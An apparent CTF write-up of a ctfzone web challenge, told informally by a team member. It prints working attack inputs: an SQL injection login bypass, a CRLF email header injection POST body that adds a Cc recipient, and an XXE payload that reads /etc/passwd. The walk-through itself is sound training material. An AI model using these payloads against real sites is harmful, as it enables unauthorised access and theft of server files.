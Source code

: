 So first it was really amazing task that make me work hard and try again and again to get something<br />
Our team was working on this task and its a good way to get the job done when you have good web guys<br />
We didnt get the last part which is just 5% of the task but we did well even we dont get the flag before the ctf end<br />
<br />
Its good too to share what we get and why not to share last part we miss <br />

First it was a web login page that <br />

![login](https://user-images.githubusercontent.com/7364615/28275160-5715e578-6b13-11e7-8be3-746bb7dcc705.PNG)

OK here where the challenge start<br />

As always check sql injection is the good way to fast work :D <br />
and as usual it works :D <br />

simple login bypass  ' or 1=1 -- in username do the job <br />

then just start dump database and get some data which was not so interesting for us , no flag in data base 

current DB : task200 <br />
Table : users <br />
user : admin <br />
password : verystrongpassword <br />

and also table posts with static data

anyway lets go far 

when we login we get this page 

![image](https://user-images.githubusercontent.com/7364615/28275423-1083f16c-6b14-11e7-9240-56dd1a0a9b34.png)

here me and my team start think about phpmailer bug , but not work after some test 

then after some check we get that its email header injection that make us able to redirect the email to our account :D 
look amazing now here :D 

this is our payload used : 
POST : subject=Report+from+16-07-2017+12-18%0d%0aCc:email@gmail.com%0d%0a&encoding=UTF-8

![image](https://user-images.githubusercontent.com/7364615/28275535-6a91760c-6b14-11e7-80e9-396f88656232.png)

it was xml file 

![image](https://user-images.githubusercontent.com/7364615/28275635-c5548e44-6b14-11e7-82cd-7fd7aa3e97ca.png)

here look XML External Entity (XXE) 

so all we need to do is to make xxe in subject to get email with some data from the server

it was really bad for us , we make all test but we miss the last part to make this work 

the last payload to get flag is to read /etc/passwd file from the server 

payload : subject=-->%26xxe;test123%0d%0aCc:+email@gmail.com&encoding=UTF-8"%3f><!DOCTYPE+foo+[<!ELEMENT+foo+ANY+><!ENTITY+xxe+SYSTEM+"file%3a///etc/passwd"+>]><report><about><subject><!--

![image](https://user-images.githubusercontent.com/7364615/28275820-5f3df590-6b15-11e7-9a62-8b544b79b853.png)

and the flag was : ctfzone{c5b8865cc6d98898f391c911f4c371a3}
